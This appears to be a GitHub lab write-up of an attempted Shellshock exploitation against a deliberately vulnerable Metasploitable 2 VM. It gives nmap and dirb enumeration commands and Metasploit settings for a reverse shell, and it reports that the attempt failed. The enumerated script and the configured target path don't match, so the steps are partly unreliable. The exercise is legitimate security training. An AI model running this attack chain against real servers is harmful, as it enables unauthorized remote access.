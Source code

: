
# **Shellshock Exploitation Using Metasploit**

## **Overview**

This project demonstrates how to exploit the **Shellshock** vulnerability in a target system using the **Metasploit Framework**. Specifically, we focus on exploiting the **Apache mod_cgi** component running on the target machine to gain remote access through **CGI scripts**.

**Shellshock** is a vulnerability in the **Bash shell** that allows remote code execution through **malformed environment variables**. This exploit leverages a vulnerable **CGI script** running on an Apache server, which can execute arbitrary commands via the vulnerable Bash environment.

## **Target Machine**

The target system in this scenario is **Metasploitable 2**, a vulnerable virtual machine intentionally created for testing and learning purposes. It runs multiple services including FTP, SSH, HTTP, etc., and is used here to demonstrate the **Shellshock** exploit.

### **Target Details**

- **IP Address:** `192.168.71.129`
- **Open Ports:**
  - Port 21 (FTP)
  - Port 22 (SSH)
  - Port 80 (HTTP - Apache HTTPD)
  - Other various services (Telnet, SMTP, etc.)

## **Tools Used**

- **Metasploit Framework** (`msfconsole`)
- **Nmap** for port scanning and service detection
- **Dirb** for directory and file enumeration on the web server

## **Steps**

### 1. **Scan the Target System for Open Ports**

To begin, we used **Nmap** to scan the target system and identify open ports and the services running on those ports.

```bash
sudo nmap 192.168.71.129 -sV -O -p1-4500
```

This command scans ports **1-4500** and provides service versions and OS details. The scan revealed that **Port 80** (HTTP) is open and running **Apache HTTPD**, which is vulnerable to the **Shellshock** exploit when running certain **CGI scripts**.

### 2. **Directory and File Enumeration Using `dirb`**

We used the **`dirb`** tool to perform directory and file enumeration on the web server at **Port 80** (Apache HTTPD). This helped us identify the presence of potentially vulnerable CGI scripts.

```bash
dirb http://192.168.71.129/cgi-bin/
```

The output showed a potential CGI script at `/cgi-bin/php`, which we later targeted for exploitation.

### 3. **Metasploit: Searching for Shellshock Exploit**

Once the vulnerable CGI script was identified, we used **Metasploit Framework** (`msfconsole`) to search for an appropriate exploit targeting the **Shellshock** vulnerability in Apache.

```bash
msf6 > search shellshock
```

We found the **`apache_mod_cgi_bash_env_exec`** exploit, which is designed to target CGI scripts that invoke the **Bash shell**. This exploit uses the **Shellshock** vulnerability to execute arbitrary code on the target system.

### 4. **Configure Metasploit and Set Exploit Parameters**

We configured the Metasploit exploit by setting the following options:

```bash
set RHOSTS 192.168.71.129     # Target IP address
set RPORT 80                  # Apache HTTPD runs on port 80
set TARGETURI /cgi-bin/hello_world.sh  # CGI script URL
set LHOST <your_local_ip>     # Your local IP address for reverse shell
set LPORT 4444                # Local port for reverse shell listener
```

### 5. **Execute the Exploit**

With all configurations in place, we executed the exploit:

```bash
exploit
```

If the exploit is successful, **Metasploit** should create a reverse shell or **Meterpreter** session. However, no session was created in this attempt, possibly due to incorrect configurations or firewall settings on the target system.

### 6. **Troubleshooting**

If no session was created, possible reasons include:

- **Firewall/IDS/IPS** blocking the reverse connection
- Incorrect **TARGETURI** or **LPORT** configuration
- **CGI script** not vulnerable to **Shellshock**
- Port **4444** not open or misconfigured on the local system

### 7. **Scan for Open Ports on Local System (LPORT)**

To ensure that the **LPORT** is available for listening, we used the following command to list open ports on the local machine:

```bash
sudo ss -tuln
```

If no output is shown, it may indicate that there are no services actively listening for incoming connections on your system. In such cases, try using alternative ports like **8080**, **4444**, or others that are free.

## **Conclusion**

This exercise demonstrated how to exploit the **Shellshock** vulnerability via a vulnerable **CGI script** hosted on an **Apache HTTPD** server. Using **Metasploit**, we were able to configure and attempt exploitation, though success was not achieved due to configuration issues and firewall restrictions.

## **Future Work**

To improve this process:

1. **Verify vulnerability** by testing with different CGI scripts.
2. **Configure firewall and IDS** to allow reverse shell connections.
3. **Explore other Shellshock-based exploits** targeting different configurations and systems.
